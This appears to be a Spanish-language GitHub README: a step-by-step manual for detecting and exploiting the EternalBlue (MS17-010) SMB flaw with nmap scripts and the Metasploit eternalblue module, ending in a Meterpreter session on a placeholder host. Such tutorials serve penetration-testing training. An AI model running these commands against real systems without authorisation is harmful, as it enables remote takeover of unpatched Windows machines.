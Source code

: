 # Manual-Eternalblue
Detección y explotación de la vulnerabilidad EternalBlue

La vulnerabilidad en la implementación de SMB permite a los atacantes acceder y controlar un equipo remotamente.


MANUAL:

Escaneo agresivo con nmap
Sintaxis:

```cmd
nmap -A "host"
```
Script para detectar si un host tiene la vulnerabilidad de eternalblue con nmap en bash:

```cmd
#!/bin/bash


echo "ingrese direccion ip del objetivo"
read ip
if nmap -p445 --script smb-vuln-ms17-010.nse $ip | grep "VULNERABLE"; then
  echo "Host es vulnerable a EternalBlue (MS17-010)"
else
  echo "Host no es vulnerable a EternalBlue (MS17-010)"
fi
```

iniciar Metasploit Framework

```cmd
service postgresql start
```

```cmd
msfconsole
```

Usar un modulo auxiliar de metasploit para detectar si un host cuenta con la vulnerabilidad de eternalblue

```cmd
use auxiliary/scanner/smb/smb_ms17_010
```
configurar hosts

```cmd
set RHOSTS "host"
```
ejecutar

```cmd
run
```
Ejecutar un modulo de tipo exploit para generar una consola de meterpreter al host vulnerable

```cmd
use exploit/windows/smb/ms17_010_eternalblue
```
configurar host

```cmd
set RHOSTS "host"
```

Ejecutar

```cmd
exploit
```